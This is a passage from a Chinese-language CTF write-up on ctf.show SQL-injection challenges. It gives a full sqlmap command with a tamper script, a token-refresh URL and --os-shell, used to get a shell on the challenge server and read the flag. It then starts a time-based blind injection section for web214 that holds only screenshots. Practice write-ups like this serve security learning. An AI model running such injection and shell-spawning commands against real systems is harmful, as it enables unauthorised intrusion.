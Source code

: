 根据提示，用--os-shell拿到shell读flag

其他跟上题一样

payload:

```
python sqlmap.py -u "http://341989d1-8945-4c5d-b70e-2d69a0f850b1.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=66ddslui3ejn3b4pa6437qm60j;" --referer=ctf.show --safe-url="http://341989d1-8945-4c5d-b70e-2d69a0f850b1.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper=web211 --os-shell
```

![image-20250213223852147](../assets/image-20250213223852147.png)



#### 时间盲注

#### web214

![image-20250214112011874](../assets/image-20250214112011874.png)

这道题没给出注入点

![image-20250214114945157](../assets/image-20250214114945157.png)